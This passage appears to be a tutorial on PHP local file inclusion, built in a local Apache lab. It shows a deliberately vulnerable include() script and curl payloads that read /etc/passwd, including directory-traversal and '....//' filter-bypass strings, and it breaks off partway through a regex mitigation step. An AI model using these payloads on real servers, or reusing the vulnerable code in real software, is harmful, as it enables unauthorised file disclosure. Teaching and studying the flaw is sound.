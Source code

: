 # Definition
Something to do!!
## Installing and Preparing labs
I use my own machine to understand the vulnerability.
```shell
sudo service apache2 start
cd /var/www/html
touch index.php
```
# Familiarizing
## Understanding
First, let's see how this vulnerability works.
When you include a file inside *php* code like this.
```php
<?php
	$filename = $_GET['filename'];
	include($filename);
?>
```
___
The attacker will simply can see sensitive files, just like this.
```shell
curl -s -X GET "http://localhost/index.php?filename=/etc/passwd"
```
___
## Trying Securing Inclusions
You could think doing more secure your *php* script by forcing your web path concatenation.
```php
<?php
	$filename = $_GET['filename'];
	include("/var/www/html/" . $filename);
?>
```
But, the attacker could easily use a **Directory Traversal** and see anything.
```shell
curl -s -X GET "http://localhost/index.php/?filename=../../../../../../../..//etc/passwd"
```
___
Making more secure you could replace each **../** by nothing.
```php
<?php
	$filename = $_GET['filename'];
	$filename = str_replace("../", "", $filename);
	include("/var/www/html/" . $filename);
?>
```
But, the attacker could easily use  **....//** and see anything.
```shell
sudo curl -s -X GET "http://localhost/index.php/?filename=....//...//....//....//....//....//....//....///etc/passwd"
```
___
Now, you could use *regular expressions* to improve inclusion security by evading including a specific path */etc/passwd*.
```php
<?php
	$filename = $_GET['filename'];
	$filename = str_replace("../", "", $filename);

```